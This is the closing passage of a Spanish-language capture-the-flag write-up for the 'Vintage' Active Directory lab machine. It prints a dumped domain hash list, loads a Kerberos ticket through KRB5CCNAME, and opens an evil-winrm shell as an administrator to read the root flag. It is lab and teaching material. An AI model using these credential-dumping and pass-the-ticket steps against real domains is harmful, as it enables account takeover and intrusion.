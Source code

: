 ~~~ bash
C.Neri:1115:aad3b435b51404eeaad3b435b51404ee:cc5156663cd522d5fa1931f6684af639:::
P.Rosa:1116:aad3b435b51404eeaad3b435b51404ee:8c241d5fe65f801b408c96776b38fba2:::
svc_sql:1134:aad3b435b51404eeaad3b435b51404ee:cc5156663cd522d5fa1931f6684af639:::
svc_ldap:1135:aad3b435b51404eeaad3b435b51404ee:48d244770248359551f188243ca7dac5:::
svc_ark:1136:aad3b435b51404eeaad3b435b51404ee:1d1c5d252941e889d2f3afdd7e0b53bf:::
C.Neri_adm:1140:aad3b435b51404eeaad3b435b51404ee:91c4418311c6e34bd2e9a3bda5e96594:::
L.Bianchi_adm:1141:aad3b435b51404eeaad3b435b51404ee:6b751449807e0d73065b0423b64687f0:::
DC01$:1002:aad3b435b51404eeaad3b435b51404ee:2dc5282ca43835331648e7e0bd41f2d5:::
gMSA01$:1107:aad3b435b51404eeaad3b435b51404ee:b3a15bbdfb1c53238d4b50ea2c4d1178:::
FS01$:1108:aad3b435b51404eeaad3b435b51404ee:44a59c02ec44a90366ad1d0f8a781274:::
[*] Cleaning up...
~~~


## Shell as `L.Bianchi_adm`

Primeramnete cargamos el archivo `.ccache` en la variable `KRB5CCNAME`

~~~ bash
export KRB5CCNAME=L.Bianchi_adm.ccache
~~~

Ahora que tenemos un ticket cargado como el usuario `L.Bianchi_adm`, podremos conectarnos al dominio utilizando `evil-winrm` de la misma forma en la que nos conectamos con el usuario `C.Neri`

~~~ bash
evil-winrm -i DC01.vintage.htb -r vintage.htb
                                        
Evil-WinRM shell v3.5

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\L.Bianchi_adm\Documents> whoami
vintage\l.bianchi_adm
*Evil-WinRM* PS C:\Users\L.Bianchi_adm\Documents> type ..\..\Administrator\Desktop\root.txt
d00...
~~~

Gracias por leer este artículo, espero te haya sido de ayuda. Te dejo la cita del día:

> Time is not a measure the length of a day or month or year but more a measure of what you have accomplished.
> — Byron Pulsifer
{: .notice--info}
